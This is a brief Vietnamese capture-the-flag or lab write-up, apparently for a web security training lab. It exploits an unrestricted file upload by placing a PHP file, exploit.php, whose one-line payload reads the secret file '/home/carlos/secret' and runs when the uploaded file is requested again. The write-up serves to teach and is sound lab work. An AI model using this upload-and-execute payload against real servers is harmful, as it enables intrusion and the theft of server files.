

# Write Up

## Upload ảnh

Đầu tiên chúng ta sẽ upload ảnh để lấy ra API



## Upload exploit.php

Chúng ta tạo 1 file `exploit.php` để exploit server

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Sau đó upload lên

## Gọi lại API

Sau khi upload lên, `exploit.php` sẽ được lưu trữ lại trên server, lần gọi tiếp theo nó sẽ thực thi code trong file

